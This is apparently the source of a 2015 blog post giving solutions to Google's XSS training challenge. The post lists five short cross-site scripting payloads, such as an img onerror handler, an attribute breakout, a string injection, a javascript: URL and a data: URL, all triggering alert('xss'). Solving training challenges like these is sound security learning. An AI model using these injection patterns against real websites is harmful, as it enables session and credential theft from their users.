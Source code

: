 ```yaml
---
layout:     post
title:      "Xss is old but gold!"
subtitle:   "Google xss challenge Solution!"
date:       2015-10-06 16:47:00
author:     "Heeraj"
header-img: "img/post-bg-02.jpg"
---
```

<script async src="//pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<!-- ad -->
<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-0540814478217300"
     data-ad-slot="5956699124"
     data-ad-format="auto"></ins>
<script>
(adsbygoogle = window.adsbygoogle || []).push({});
</script>
<p> If you like to read our old blogs you are welcome, <a href="http://heeraj123.wordpress.com">I4INFO</a> </p>

<p>Google XSS challenge solution!</p>

<p>Challenge 2</p>

<blockquote>"ptr=&#x3C;img src=&#x22;hrj&#x22; onerror=&#x22;alert(&#x22;xss&#x22;)&#x3E;"</blockquote>

<p>Challenge 3</p>

<blockquote>&#x27; onerror=&#x27;alert(&#x22;xss&#x22;)&#x27;&#x3E;</blockquote>

<p>Challenge 4</p>

<blockquote>');alert('xss</blockquote>

<p>Challenge 5</p>

<blockquote>javascript%3Aalert(%22xss%22)</blockquote>

<p>Challenge 6</p>

<blockquote>#data:text/plain,alert('xss')</p>

<p>Stay tuned!<br> Untill we come with our another blog!</p>





